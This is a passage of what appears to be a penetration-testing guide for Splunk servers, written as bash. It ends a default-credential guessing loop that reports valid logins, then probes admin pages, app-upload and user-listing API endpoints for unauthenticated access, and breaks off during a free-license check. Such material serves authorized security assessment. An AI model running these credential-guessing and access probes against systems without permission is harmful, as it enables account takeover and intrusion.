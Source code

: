 ```bash
        if curl -s -b cookies.txt "$base_url/en-US/app/launcher/home" | \
           grep -q "Welcome.*$username\|Logout"; then
            echo "[+] Valid credentials found: $username:$password"
            return 0
        fi
        
        rm -f cookies.txt
    done
    
    echo "[-] No valid credentials found with common defaults"
}

# credential_testing "http://target.com:8000"
```

#### Authentication Bypass Detection
```bash
# Check for authentication bypass scenarios
auth_bypass_testing() {
    local base_url=$1
    
    echo "[+] Testing authentication bypass scenarios:"
    
    # Test 1: Direct app access without authentication
    admin_urls=(
        "/en-US/manager/system"
        "/en-US/manager/appinstall/_upload"
        "/en-US/app/search/search"
        "/en-US/app/launcher/home"
        "/services/apps/local"
        "/services/data/indexes"
    )
    
    for url in "${admin_urls[@]}"; do
        response=$(curl -s -o /dev/null -w "%{http_code}" "$base_url$url")
        if [[ $response == "200" ]]; then
            echo "[!] CRITICAL: Unauthenticated access to $url"
        fi
    done
    
    # Test 2: API endpoint access
    api_endpoints=(
        "/services/server/info"
        "/services/authentication/users"
        "/services/apps/local"
        "/services/data/indexes"
    )
    
    echo "[+] Testing unauthenticated API access:"
    for endpoint in "${api_endpoints[@]}"; do
        response=$(curl -s -o /dev/null -w "%{http_code}" "$base_url$endpoint")
        case $response in
            200)
                echo "[!] Unauthenticated API access: $endpoint"
                ;;
            401)
                echo "[+] Protected: $endpoint (requires auth)"
                ;;
        esac
    done
    
    # Test 3: Free license detection
    if curl -s "$base_url/" | grep -q "Splunk Free"; then
```